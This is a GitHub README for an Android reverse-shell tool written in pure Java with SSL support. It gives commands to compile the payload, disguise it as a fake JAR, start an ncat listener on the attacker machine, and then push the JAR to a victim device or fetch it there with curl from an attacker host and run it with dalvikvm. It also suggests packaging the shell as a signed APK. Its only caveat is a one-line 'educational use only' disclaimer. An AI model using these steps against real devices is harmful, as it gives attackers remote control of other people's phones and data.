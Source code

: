 # Pure Java Android Reverse Shell (with SSL Support)

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATED WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl and then run the reverse shell using dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>

then

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

~~Support for SSL encryption~~

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

